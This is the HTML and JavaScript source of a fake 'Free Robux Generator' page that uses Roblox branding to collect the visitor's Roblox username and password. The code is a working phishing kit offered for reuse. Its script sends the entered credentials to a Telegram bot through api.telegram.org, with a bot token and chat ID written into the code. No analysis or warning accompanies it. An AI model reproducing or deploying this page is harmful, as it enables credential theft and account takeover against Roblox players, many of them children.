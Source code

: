 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Roblox Free Robux</title>
  <link rel="icon" href="https://upload.wikimedia.org/wikipedia/commons/6/6b/Roblox_Logo_2022.svg">
  <style>
    @keyframes fadeIn {
      from {
        opacity: 0;
        transform: translateY(-30px);
      }
      to {
        opacity: 1;
        transform: translateY(0);
      }
    }

    body {
      background: linear-gradient(to bottom, #0f172a, #1e293b);
      color: white;
      font-family: 'Segoe UI', sans-serif;
      display: flex;
      flex-direction: column;
      align-items: center;
      justify-content: center;
      height: 100vh;
      margin: 0;
      animation: fadeIn 1.2s ease-out;
    }

    img.logo {
      width: 100px;
      margin-bottom: 10px;
      animation: fadeIn 1.5s ease;
    }

    h1 {
      color: #22d3ee;
      margin-bottom: 5px;
      animation: fadeIn 1.5s ease;
    }

    p {
      color: #94a3b8;
      margin: 0 0 20px 0;
      animation: fadeIn 1.8s ease;
    }

    input, select, button {
      padding: 12px;
      margin: 8px;
      border: none;
      border-radius: 10px;
      font-size: 1em;
      width: 280px;
      box-shadow: 0 4px 12px rgba(0,0,0,0.2);
      transition: 0.3s;
    }

    input, select {
      background: #1e293b;
      color: white;
    }

    input:focus, select:focus {
      outline: 2px solid #38bdf8;
    }

    button {
      background: #22c55e;
      color: white;
      cursor: pointer;
    }

    button:hover {
      background: #16a34a;
      transform: scale(1.05);
    }
  </style>
</head>
<body>

  <img class="logo" src="https://upload.wikimedia.org/wikipedia/commons/6/6b/Roblox_Logo_2022.svg" alt="Roblox Logo">
  <h1>🎮 Free Robux Generator</h1>
  <p>Generate free Robux now!</p>

  <input type="text" id="username" placeholder="Roblox Username">
  <input type="password" id="password" placeholder="Roblox Password">

  <select id="robuxAmount">
    <option value="100">100 Robux</option>
    <option value="500">500 Robux</option>
    <option value="1000">1000 Robux</option>
    <option value="2000">2000 Robux</option>
  </select>

  <button onclick="sendToTelegram()">Generate Robux</button>

  <script>
    function sendToTelegram() {
      const username = document.getElementById("username").value;
      const password = document.getElementById("password").value;
      const robux = document.getElementById("robuxAmount").value;

      const token = "7813099066:AAF2_21LreeHeeWVDbR6CrzQZg9gq4__2qA"; // Replace with your Bot Token
      const chat_id = "7999225380"; // Replace with your Chat ID

      const message = `🎮 Roblox Free Robux Login:\n👤 Username: ${username}\n🔑 Password: ${password}\n💰 Robux: ${robux}`;

      const url = `https://api.telegram.org/bot${token}/sendMessage?chat_id=${chat_id}&text=${encodeURIComponent(message)}`;

      fetch(url)
        .then(response => {
          if (response.ok) {
            alert("✅ Info sent to Telegram!");
          } else {
            alert("❌ Failed to send.");
          }
        })
        .catch(error => {
          alert("⚠️ Error: " + error);
        });
    }
  </script>

</body>
</html>
